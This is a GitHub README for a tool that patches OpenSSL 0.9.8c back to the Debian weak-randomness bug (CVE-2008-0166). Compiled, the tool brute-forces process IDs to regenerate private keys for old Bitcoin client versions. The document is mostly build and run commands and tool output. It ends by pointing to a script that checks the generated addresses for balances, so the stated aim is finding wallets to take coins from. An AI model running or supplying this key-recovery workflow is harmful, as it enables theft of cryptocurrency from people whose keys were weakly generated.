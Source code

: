 # Vulnerable to Debian OpenSSL bug (CVE-2008-0166)

---

* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---

# Commands:

    git clone https://github.com/demining/CryptoDeepTools.git

    cd CryptoDeepTools/05VulnerableOpenSSL/

    apt-get update

    sudo apt-get install g++ -y

    sudo apt-get install libgmp3-dev libmpfr-dev -y

    wget https://ftp.openssl.org/source/old/0.9.x/openssl-0.9.8c.tar.gz

    tar xfz openssl-0.9.8c.tar.gz

    mv openssl-0.9.8c openssl-0.9.8c-vuln

    cd openssl-0.9.8c-vuln

    ls -lh

    patch -p1 <../make-OpenSSL-0-9-8c-vulnerable-again.diff

    ./Configure linux-x86_64 shared no-ssl2 no-ssl3 no-comp no-asm

    make depend all

    cd /

    ls

    cd content/CryptoDeepTools/05VulnerableOpenSSL/

    ls -lh


# Compilation:

    gcc -o cryptodeepbtcgen cryptodeepbtc.c -I./openssl-0.9.8c-vuln/include -L./openssl-0.9.8c-vuln -lssl -lcrypto

    ls -lh


RUN:

    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -h


Version 0.1.2 (le64)

Usage:

-p n-m		Brute Force between PID n-m [default 0-32768]

-n <num>	Create num number of keys per PID [default: 10]

-l		Show all supported BTC versions

-v <prog>	Which BTC version to run (Try -l to find number) [0-43]

-x		Skip Self-Check



    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -l



#0   - 0.3.24

#1   - 0.8.6-d

#2   - 0.8.6-qt

#3   - 0.9.1-d

#4   - 0.9.4-d

#5   - unknownA

#6   - unknownB

#7   - unknownC

e.t.c
e.t.c


    LD_LIBRARY_PATH=./openssl-0.9.8c-vuln/ ./cryptodeepbtcgen -n 32 -v 0 >> result.txt


Next, it remains to check all the generated Bitcoin Addresses for the presence of BTC coins, for this we can use a python script:  [bitcoin-checker.py](https://github.com/demining/CryptoDeepTools/blob/main/03CheckBitcoinAddressBalance/bitcoin-checker.py)


---

* Tutorial: https://cryptodeep.ru/vulnerable-openssl

---







|  | Donation Address |
| --- | --- |
| ♥ __BTC__ | 1Lw2kh9WzCActXSGHxyypGLkqQZfxDpw8v |
| ♥ __ETH__ | 0xaBd66CF90898517573f19184b3297d651f7b90bf |
